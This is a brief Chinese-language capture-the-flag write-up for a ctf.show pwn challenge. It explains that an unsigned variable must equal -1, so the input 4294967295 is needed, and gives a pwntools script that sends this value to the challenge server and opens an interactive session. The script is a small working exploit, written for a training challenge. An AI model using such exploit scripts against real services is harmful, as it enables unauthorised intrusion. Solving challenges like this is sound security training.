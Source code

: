 # 题目简介
还是简单的知识

# 思路
v4是无符号整数

同样的思路，要求**v4 = -1**,IDA分析后为4294967295

因此输入即可

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28158)

elf = ELF('D:\edge 下载\pwn')

payload = b'4294967295'

io.sendline(payload)

io.interactive()
```
